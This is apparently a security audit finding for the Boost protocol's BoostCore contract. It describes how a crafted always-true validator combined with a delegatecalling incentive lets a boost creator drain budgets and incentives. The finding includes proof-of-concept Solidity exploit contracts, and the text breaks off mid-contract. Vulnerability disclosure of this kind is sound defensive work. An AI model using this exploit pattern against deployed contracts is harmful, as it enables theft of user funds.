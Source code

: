 ## [H-02] - Any user that has access to createBoost can drain funds from any budget or any incentives. 
Any user authorized to call `BoostCore::createBoost()` can create a crafted boost 
that allows him to drain funds from budgets and incentives through `BoostCore::claimIncentivesFor()`.

If a boost is created with an action that inherits `AValidator` and can make `validate()` to return always 
true bypassing [this line](https://github.com/sherlock-audit/2024-06-boost-aa-wallet-noahfigueras/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L176). 
Then on the following [line](https://github.com/sherlock-audit/2024-06-boost-aa-wallet-noahfigueras/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L177),
the `claim()` can call a crafted function deployed as an incentive that `delegatescall` to other contracts. As 
`msg.sender` will remain as `BoostCore`, all incentives methods under `onlyOwner` are able to be called. 
Specifically, calling `clawback()` will allow someone to drain any incentives methods. Also budgets, 
can be drain as long as `BoostCore` is allowed to call `budget.disburse()` or `budget.clawback()`.

In the following example, a crafted incentive called `ExploitIncentive` is deployed
with the following logic in `claim()`:

```solidity
    /// @notice Claim the incentive
    /// @param claimTarget the address receiving the claim
    /// @return True if the incentive was successfully claimed
    function claim(address claimTarget, bytes calldata _data) external override onlyOwner returns (bool) {
      bytes memory encodedFunctionCall = abi.encodeWithSignature("clawback(bytes)", _data);
      claimTarget.delegatecall(encodedFunctionCall);
      return true;
    }
```

Also, a crafted action is deployed called `ExploitAction` bypassing `validate()`: 
```solidity
contract ExploitAction is AContractAction, AValidator {
    /// @inheritdoc ACloneable
    /// @notice Initialize the contract with the owner and the required data
    function initialize(bytes calldata data_) public virtual override initializer {
        _initialize(abi.decode(data_, (InitPayload)));
    }

    function _initialize(InitPayload memory init_) internal virtual onlyInitializing {
        chainId = init_.chainId;
        target = init_.target;
        selector = init_.selector;
        value = init_.value;
    }
    /// @inheritdoc AContractAction
    function getComponentInterface() public pure virtual override(AContractAction, AValidator) returns (bytes4) {
        return type(AERC721MintAction).interfaceId;
    }

    /// @inheritdoc AContractAction
    function supportsInterface(bytes4 interfaceId)
        public
        view
        virtual
        override(AContractAction, AValidator)
        returns (bool)
    {
```